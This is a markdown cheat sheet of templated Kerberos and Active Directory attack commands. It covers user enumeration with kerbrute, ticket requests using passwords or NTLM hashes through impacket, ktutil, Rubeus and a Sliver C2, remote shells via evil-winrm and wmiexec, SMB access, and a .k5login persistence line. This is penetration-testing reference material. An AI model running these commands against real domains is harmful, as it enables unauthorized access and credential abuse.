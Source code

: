 ```yaml
---
title: "Kerberos"
date: 2024-7-2
tags: ["kerberos", "kerbrute", "rubeus", "active directory", "ad", "domain controller", "Windows", "smb"]
---
```


### Users enum

{{< tab set1 tab1 active >}}kerbrute{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
kerbrute userenum --domain <DOMAIN> --dc <DC> <USERNAMES_FILE>
```

</div>

<small>*Ref: [kerbrute](https://github.com/ropnop/kerbrute)*</small>

{{< /tabcontent >}}

### Usernames generator

{{< tab set2 tab1 active >}}username-anarchy{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
./username-anarchy -i <USERS_FILE> | tee <USERNAMES_FILE>
```

</div>

<small>*Ref: [username-anarchy](https://github.com/urbanadventurer/username-anarchy)*</small>

{{< /tabcontent >}}

<br>

---

### Generate Kerberos ticket (From Linux)

{{< tab set3 tab1 active >}}Impacket{{< /tab >}}
{{< tab set3 tab2 >}}Kinit{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```console
# Auth with password
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>'
```

```console
# Auth with hash
sudo ntpdate -s <DC> && impacket-getTGT -hashes :<HASH> '<DOMAIN>/<USER>'
```

```console
export KRB5CCNAME=<USER>.ccache
```

```console
# Check ticket
klist
```

</div>

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

<div>

```console
# Step 0: Installation
sudo apt install krb5-user cifs-utils
```

```console
# Step 1: Add domain controller to '/etc/hosts' (Try different order if not work)
<TARGET> <DC> <DOMAIN>
```

```console
# Step 2: Add domain controller as a DNS server to '/etc/resolv.conf' [optional]
nameserver <TARGET>
```

```console
# Step 3: Edit '/etc/krb5.conf' (All uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console
# Step 4: Sync time to domain controller
sudo ntpdate -s <DC>
```

</div>

#### 2a. Without creds

<div>

```console
# Generate kerberos ticket for user
kinit <USER>
```

</div>

#### 2b. With NTLM hash

<div>

```console
ktutil
```

```console
add_entry -p administrator@<DOMAIN> -k 1 -key -e rc4-hmac
```

```console
<HASH>
```

```console
write_kt administrator.keytab
```

```console
exit
```

```console
kinit -V -k -t administrator.keytab -f administrator@<DOMAIN>
```

</div>

#### 3. Check ticket

<div>

```console
klist
```

</div>

{{< /tabcontent >}}

### Generate Kerberos ticket (From Windows)

{{< tab set4 tab1 active >}}rubeus{{< /tab >}}
{{< tabcontent set4 tab1 >}}

<div>

```console
# Auth with password
.\Rubeus.exe asktgt /user:<USER> /password:'<PASSWORD>' /enctype:AES256 /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

```console
# Auth with hash
.\Rubeus.exe asktgt /user:<USER> /rc4:'<HASH>' /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

```console
# Check
klist
```

</div>

{{< /tabcontent >}}

### Generate Kerberos ticket (From C2)

{{< tab set5 tab1 active >}}Sliver{{< /tab >}}
{{< tabcontent set5 tab1 >}}

<div>

```console
# Auth with password
rubeus -- 'asktgt /user:<USER> /password:<PASSWORD> /enctype:AES256 /domain:<DOMAIN> /dc:<DC> /ptt /nowrap'
```

```console
# Auth with hash
rubeus -- 'asktgt /user:<USER> /rc4:<HASH> /domain:<DOMAIN> /dc:<DC> /ptt /nowrap'
```

```console
# Check
c2tc-klist
```

</div>

{{< /tabcontent >}}

<br>

---


### Winrm with Kerberos

{{< tab set6 tab1 active >}}evil-winrm{{< /tab >}}
{{< tab set6 tab2 >}}wmiexec{{< /tab >}}
{{< tabcontent set6 tab1 >}}

<div>

```console
# Step 1: Edit '/etc/krb5.conf' (All uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console
# Step 2: Connect
sudo ntpdate -s <DC> && evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set6 tab2 >}}

<div>

```console
sudo ntpdate -s <DC> && impacket-wmiexec '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k -no-pass
```

</div>

{{< /tabcontent >}}

<br>

---

### Connect to SMB with Kerberos

<div>

```console
sudo ntpdate -s <DC> && impacket-smbclient '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k -no-pass
```

</div>

<br>

---

### Add Kerberos Access in Linux

<div>

```console
echo "<USER>@<DOMAIN>" > /home/<TARGET_USER>/.k5login
```

</div>

<br>